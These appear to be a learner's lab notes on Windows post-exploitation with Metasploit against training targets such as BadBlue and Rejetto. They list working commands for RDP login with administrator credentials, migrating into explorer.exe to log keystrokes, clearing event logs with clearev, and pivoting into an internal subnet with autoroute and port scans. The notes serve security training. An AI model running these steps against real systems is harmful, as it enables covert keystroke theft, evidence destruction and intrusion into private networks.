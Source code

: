 On attacker:
`xfreerdp /u:administrator /p:hacker123321 /v:<targetip>`

## Windows Keylogging
- capture keystokes
- Dont risk getting caught in RDP etc
- passive info gathering

Demo:
bad blue EE again

Keylogger works best when on the Explorer.exe process
`pgrep explorer`
`migarete <pid or explorer>`

`keyscan_start`
Type something on target
`keyscan_dump`


## Clear Windows Event Log
- Application logs: app events like startups/crashes etc
- System logs: system reboots etc
- Security logs: password changes, auth failures etc
- Assesed via Event Viewer

Demo:
Badblue
On target, Event viewer shows all the activities 

on the session,
`clearev`
- all gone wow

## Pivoting
- use the compromised host to access other systems on the hosts private internal network


Demo:
rejetto vuln on victim1

On session 1
`ipconfig`
`run autoroute -s 10.2.27.0/20`
-> can put anything as long as theres the subnet eg `10.2.27.21`

For easy reference rename session 1
`sessions -n victim1 -i 1`

Note: can only use msfmodules for the added route. External mods (eg db_nmap) will not work
/scanner/portscan/tcp 
`set ports 1-100` to save time

Impt the route is only applicable to msfconsole. No port forwarding is done so attacker browser cant access.
Hence, **port forwarding** needs to be done. (From port 80 on victim2 to local)
